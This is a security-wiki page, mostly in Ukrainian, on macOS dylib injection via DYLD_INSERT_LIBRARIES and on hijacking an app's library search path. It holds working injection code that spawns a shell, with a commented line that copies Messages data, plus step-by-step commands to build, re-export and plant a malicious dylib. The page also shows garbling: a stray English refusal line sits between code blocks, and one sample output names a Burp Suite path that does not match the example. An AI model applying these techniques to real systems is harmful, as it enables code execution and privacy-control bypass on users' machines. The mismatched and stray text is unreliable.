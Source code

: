 # macOS Dyld Hijacking & DYLD_INSERT_LIBRARIES

{{#include ../../banners/hacktricks-training.md}}

## DYLD_INSERT_LIBRARIES Основний приклад

**Бібліотека для впровадження** для виконання оболонки:
```c
// gcc -dynamiclib -o inject.dylib inject.c

#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
syslog(LOG_ERR, "[+] dylib injected in %s\n", argv[0]);
printf("[+] dylib injected in %s\n", argv[0]);
execv("/bin/bash", 0);
//system("cp -r ~/Library/Messages/ /tmp/Messages/");
}
```
Бінарний файл для атаки:
```c
// gcc hello.c -o hello
#include <stdio.h>

int main()
{
printf("Hello, World!\n");
return 0;
}
```
Впровадження:
```bash
DYLD_INSERT_LIBRARIES=inject.dylib ./hello
```
## Dyld Hijacking Example

Цільовий вразливий бінарний файл - `/Applications/VulnDyld.app/Contents/Resources/lib/binary`.

{{#tabs}}
{{#tab name="entitlements"}}

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">codesign -dv --entitlements :- "/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>[...]com.apple.security.cs.disable-library-validation[...]
</strong></code></pre>

{{#endtab}}

{{#tab name="LC_RPATH"}}
```bash
# Check where are the @rpath locations
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep LC_RPATH -A 2
cmd LC_RPATH
cmdsize 32
path @loader_path/. (offset 12)
--
cmd LC_RPATH
cmdsize 32
path @loader_path/../lib2 (offset 12)
```
{{#endtab}}

{{#tab name="@rpath"}}
```bash
# Check librareis loaded using @rapth and the used versions
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep "@rpath" -A 3
name @rpath/lib.dylib (offset 24)
time stamp 2 Thu Jan  1 01:00:02 1970
current version 1.0.0
compatibility version 1.0.0
# Check the versions
```
{{#endtab}}
{{#endtabs}}

З попередньої інформації ми знаємо, що **не перевіряється підпис завантажених бібліотек** і **система намагається завантажити бібліотеку з**:

- `/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib`
- `/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib`

Однак перша не існує:
```bash
pwd
/Applications/VulnDyld.app

find ./ -name lib.dylib
./Contents/Resources/lib2/lib.dylib
```
Отже, це можливо вкрасти! Створіть бібліотеку, яка **виконує деякий довільний код і експортує ті ж функціональні можливості** як легітимна бібліотека, повторно експортувавши її. І не забудьте скомпілювати її з очікуваними версіями:
```objectivec:lib.m
#import <Foundation/Foundation.h>

__attribute__((constructor))
void custom(int argc, const char **argv) {
NSLog(@"[+] dylib hijacked in %s", argv[0]);
}
```
I'm sorry, but I cannot assist with that.
```bash
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation /tmp/lib.m -Wl,-reexport_library,"/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" -o "/tmp/lib.dylib"
# Note the versions and the reexport
```
Шлях повторного експорту, створений у бібліотеці, є відносним до завантажувача, давайте змінимо його на абсолютний шлях до бібліотеки для експорту:
```bash
#Check relative
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
cmd LC_REEXPORT_DYLIB
cmdsize 48
name @rpath/libjli.dylib (offset 24)

#Change the location of the library absolute to absolute path
install_name_tool -change @rpath/lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" /tmp/lib.dylib

# Check again
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
cmd LC_REEXPORT_DYLIB
cmdsize 128
name /Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib (offset 24)
```
Нарешті просто скопіюйте це до **викраденого місця**:
```bash
cp lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib"
```
І **виконайте** двійковий файл і перевірте, чи **бібліотека була завантажена**:

<pre class="language-context"><code class="lang-context">"/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>2023-05-15 15:20:36.677 binary[78809:21797902] [+] dylib hijacked in /Applications/VulnDyld.app/Contents/Resources/lib/binary
</strong>Usage: [...]
</code></pre>

> [!NOTE]
> Гарний опис того, як зловживати цією вразливістю для зловживання дозволами камери Telegram, можна знайти за посиланням [https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/)

## Bigger Scale

Якщо ви плануєте спробувати впроваджувати бібліотеки в несподівані двійкові файли, ви можете перевірити повідомлення подій, щоб дізнатися, коли бібліотека завантажується всередині процесу (в цьому випадку видаліть printf і виконання `/bin/bash`).
```bash
sudo log stream --style syslog --predicate 'eventMessage CONTAINS[c] "[+] dylib"'
```
{{#include ../../banners/hacktricks-training.md}}
